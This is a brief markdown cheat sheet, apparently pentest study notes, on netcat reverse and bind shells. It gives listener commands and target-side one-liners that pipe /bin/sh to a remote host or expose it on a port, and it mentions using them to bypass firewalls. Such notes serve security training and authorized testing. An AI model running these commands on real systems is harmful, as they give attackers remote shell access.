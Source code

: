 ## Reverse Shell

Victim connects to us
Used 95% of the time

Listening command (client):
l = listening
v = verbose
p = port
```bash
nc -lvp 4444
```

Connecting (target)
```bash
nc <ip> 4444 -e /bin/sh
```

## Bind shell
Open port on target and we connect to it
Often on an external assessment, used to bypass a firewall or prevent port forwarding

Listening (target):

```bash
nc -lvp 4444 -e /bin/sh
```

Connecting (client):

```bash
nc <ip> 4444
```


